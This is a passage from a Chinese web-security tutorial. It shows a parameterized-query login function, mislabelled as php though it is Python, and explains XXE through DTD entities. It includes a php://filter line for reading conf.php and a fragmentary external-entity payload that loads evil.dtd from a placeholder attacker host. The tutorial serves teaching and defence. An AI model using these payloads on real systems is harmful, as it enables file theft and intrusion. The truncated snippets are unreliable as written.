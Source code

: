 #### 如何避免

- 参数化查询能解决大多数问题
- 校验数据类型
- 数据长度的最大值和最小值

```php
def authenticate(request):
    email = request.POST['email']
    password = request.POST['password']

    cursor = connection.cursor()
    cursor.execute("select * from users where(email = %s and password = %s)"
    , [email, password])
    row = cursor.fetchone()
    if row:
        loggedIn = "Auth successful"
    else:
        loggedIn = "Auth failure"
    return HttpResponse("Logged In Status: " + loggedIn)
```

### 8.xxe

#### 漏洞成因

xml文档结构：

1. 文档说明
2. 文档类型定义，也就是DTD，XXE 漏洞所在的地方
3. XML文档元素

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6330e8e7c25bce946e53c8e2bf0cd448fafb33cd.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6330e8e7c25bce946e53c8e2bf0cd448fafb33cd.png)

DTD实体：用于定义快捷方式的变量。实体可在内部或外部进行声明。

内部实体

```php
<!ENTITY 实体名称 "实体的值">
```

外部实体：引入外部资源。有`SYSTEM`和`PUBLIC`两个关键字，表示实体来自本地还是其他服务器。

例如以下协议：

```php
file:///path/to/file.ext
http://url/file.ext
php://filter/read=convert.base64-encode/resource=conf.php
```

```php

<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&amp;evil;</foo>
```
